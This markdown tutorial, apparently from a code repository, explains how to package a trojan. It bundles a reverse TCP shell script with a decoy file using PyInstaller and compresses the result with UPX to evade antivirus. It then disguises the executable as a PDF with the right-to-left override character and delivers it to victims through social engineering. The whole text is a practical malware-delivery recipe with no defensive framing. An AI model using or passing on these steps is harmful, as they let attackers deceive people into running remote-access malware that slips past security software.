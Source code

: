 # Packaging Trojans with any file.
 
 ## Using App Data

 ### Steps
- Install Pyinstaller
- Downloading Icon :
    - Download Icon from [IconFinder](https://iconfinder.com/)
    - set filters to free and choose high resolution.
    - download icon
- Changing downloaded png to ico
    - Visit [ICO convert](https://icoconvert.com/) or [OnlineConvert.com](https://image.online-convert.com/convert-to-ico)
    - Upload image
    - choose desired settings
    - convert and download ico file
- If using requests use 2.5.1
    ```
    $ pyinstaller --add-data "path_to_front_file;." --icon "full_icon_path" --one-file --noconsole -n "name_of_output_file" "path_to_reverse_tcp.py"
    ```

### Bypassing AV using UPX
- Download [UPX](https://github.com/upx/upx/releases/tag/v3.96)
- Extract files 
- Use UPX to compress pyinstaller generated executable
- Syntax:
    ```
    $ ./upx "full_path_of_executable" -o "full_path_of_compressed_executable"
    ```

### Spoofing File Type
- Copy Right to left override character (U+202E). copy from below or from [unicode-explorer website](https://unicode-explorer.com/c/202E)
``` 
‮ 
``` 
- file_name-`(type_everything_in_reverse_order)` and paste copied character after `-`.

  - eg : sample_pdf-`fdp.exe`
    - file_name : sample_pdf
    - spoofing_extension : pdf
    - reverse order of spoofing extension : fdp
    - file_extension : exe
  - spoofed file_name : sample_pdf-‮fdp.exe

### Send File to victim 
- Send file to victim through using attacks or social engineering.